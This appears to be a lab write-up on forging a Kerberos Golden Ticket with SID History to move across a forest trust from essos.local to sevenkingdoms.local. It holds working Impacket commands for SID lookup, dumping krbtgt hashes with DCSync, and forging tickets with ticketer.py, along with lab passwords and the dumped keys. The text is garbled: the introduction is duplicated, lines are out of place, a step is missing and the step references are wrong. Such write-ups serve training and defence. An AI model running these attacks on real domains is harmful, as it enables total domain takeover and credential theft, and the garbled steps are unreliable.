# Golden ticket with external forest, SID History ftw ( essos.local -> sevenkingdoms.local)
A Golden Ticket attack consist on the creation of a legitimate Ticket Granting Ticket (TGT) impersonating any user through the use of the NTLM hash of the Active Directory (AD) krbtgt account. This technique is particularly advantageous because it enables access to any service or machine within the domain as the impersonated user. It's crucial to remember that the krbtgt account's credentials are never automatically updated.
A SID is something which uniquely identifies a security principal, such as a user, group, or domain.
This attack can only be done because SID History is enabled.
1st - We need to find the Domain SID (in this case, both Domain SIDs), for that we can use lookupsid.py.
Essos.local SID
We can see above that we were able to execute CMD command whoami and we got output essos\sql_svc.
# Golden ticket with external forest, SID History ftw ( essos.local -> sevenkingdoms.local)
A Golden Ticket attack consist on the creation of a legitimate Ticket Granting Ticket (TGT) impersonating any user through the use of the NTLM hash of the Active Directory (AD) krbtgt account. This technique is particularly advantageous because it enables access to any service or machine within the domain as the impersonated user. It's crucial to remember that the krbtgt account's credentials are never automatically updated.
A SID is something which uniquely identifies a security principal, such as a user, group, or domain.
This attack can only be done because SID History is enabled.
1st - We need to find the Domain SID (in this case, both Domain SIDs), for that we can use lookupsid.py.
Essos.local SID
lookupsid.py -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@10.4.10.11 0

Domain SID is: S-1-5-21-2687343417-4193818928-3449734609
sevenkingdoms.local SID
lookupsid.py -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@10.4.10.10 0

Domain SID is: S-1-5-21-1884097357-162823906-1673602751
2nd - Now we need to get the NT hash from the user we have in control on our domain(essos.local).
> Be aware that we want to abuse forest trust from essos.local to sevenkingdoms.local
>
secretsdump.py</a> -just-dc-user 'essos/krbtgt' 'essos.local/daenerys.targaryen:'BurnThemAll!'@10.4.10.12'
Impacket for Exegol - v0.10.1.dev1+20231106.134307.9aa93730 - Copyright 2022 Fortra - forked by ThePorgs
[<em>] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[</em>] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:678415271d26d8d4843aef44e215bdf8:::
[<em>] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:7adf6f9154b67891983b4403c312906a90c422fb9ab2b210447b09de75245424
krbtgt:aes128-cts-hmac-sha1-96:630da46f3814ce8c59757239de46ee7b
krbtgt:des-cbc-md5:d5b3109be06bda0d
[</em>] Cleaning up...

Group SID: S-1-5-21-332544030-1053405351-3017451513-1111
4th - Creating the fake user’s Golden Ticket.
In this step we do need to create a fake user’s Golden Ticket. We will create a legitimate Ticket Granting Ticket (TGT) impersonating any user through the use of the NTLM hash of the Active Directory (AD) krbtgt account.
ticketer.py</a> -nthash '678415271d26d8d4843aef44e215bdf8' -domain-sid '<strong>S-1-5-21-2687343417-4193818928-3449734609</strong>' -domain essos.local -extra-sid 'S-1-5-21-332544030-1053405351-3017451513-1111' dragon
 Let me explain the command above:
Let me explain the command above:
-nthash : it’s the NT hash for our domain KRBTGT dumped previously in step 1.
-domain-sid : Child Domain Security Identifier also grabbed on step 2.
-domain : It is the carrent domain we are currently.
-extra-sid : That’s the combination of the target domain SID + our target group SID. which is this case is -1132.
5th - Since we were able to create the Golden ticket, we can use it now to do DCSync attack.
# Exploit ACL(Access Control Lists) with External Trust Golden Ticket
Now… We will abuse an ACL from essos.local to sevenkingdoms.local.